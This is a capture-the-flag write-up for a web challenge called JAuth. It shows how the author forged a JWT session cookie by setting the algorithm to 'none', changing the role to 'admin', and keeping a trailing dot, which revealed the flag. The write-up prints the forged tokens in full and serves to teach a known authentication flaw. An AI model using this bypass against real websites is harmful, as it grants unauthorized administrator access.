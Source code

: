 # JAuth

> Can you identify the components and exploit the vulnerable one? The website is running here. Can you become an admin? You can login as `test` with the password `Test123!` to get started.

When I logged in using the test account, the following `token` cookie appeared:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjg0NzI5NjAxNDQ0LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzYwNS4xLjE1IChLSFRNTCwgbGlrZSBHZWNrbykgVmVyc2lvbi8xNi40IFNhZmFyaS82MDUuMS4xNSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjg0NzI5NjAxfQ.ZK8YZiblfVhk-SdLl-qjvjOP6wXHZ3mgKc7e4RhVXsw
```

Three base64 strings split by `.`-characters in between: probably a JWT token. I always use the [`jwt.io`](https://jwt.io) debugger to inspect those:

![](https://i.imgur.com/tTO5aeN.png)

Looks like we will have to change the `role` field to `"admin"`... but how will be we able to generate the right signature? I always try editing the cookie and leaving the signature empty... maybe the implementation just doesn't check the signature :) That didn't work here though, so let's try something different.

Sometimes setting the `alg` field to `none` (and then leaving the signature out) works. So I tried this cookie (which a JWT debugger generated):

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg0NzI5NjAxNDQ0LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzYwNS4xLjE1IChLSFRNTCwgbGlrZSBHZWNrbykgVmVyc2lvbi8xNi40IFNhZmFyaS82MDUuMS4xNSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4NDcyOTYwMX0
```

Hmm, doesn't work again. Let's try to still add the `.` at the end, maybe something is checking if the three dots are there.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg0NzI5NjAxNDQ0LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzYwNS4xLjE1IChLSFRNTCwgbGlrZSBHZWNrbykgVmVyc2lvbi8xNi40IFNhZmFyaS82MDUuMS4xNSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4NDcyOTYwMX0.
```

Which worked! The website showed the flag after reloading with this cookie.




